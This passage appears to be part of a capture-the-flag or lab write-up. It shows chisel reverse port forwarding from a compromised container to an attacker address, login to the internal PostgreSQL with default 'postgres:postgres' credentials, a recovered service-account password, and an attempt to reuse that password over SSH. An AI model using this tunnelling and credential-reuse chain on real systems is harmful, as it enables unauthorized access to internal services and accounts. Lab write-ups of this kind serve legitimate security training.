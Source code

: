 ![[Pasted image 20240905173828.png]]
postgresql is running on port 5432 on the docker container

Started local port forwarding using chisel 1.8.1
```bash
./chisel-1.8.1 server -p 8000 --reverse
```

```bash
./chisel-1.8.1 client 10.10.14.7:8000 R:5432:172.22.0.1:5432
```

Connected to postgresql 
```bash
psql -h 127.0.0.1 -p 5432 -U postgres
```
`postgres:postgres`

![[Pasted image 20240905174030.png]]

![[Pasted image 20240905174122.png]]
`service_acc:123meunomeeivani`

We know that `svc` user exists on the system, attempting to SSH as `svc` using the above password
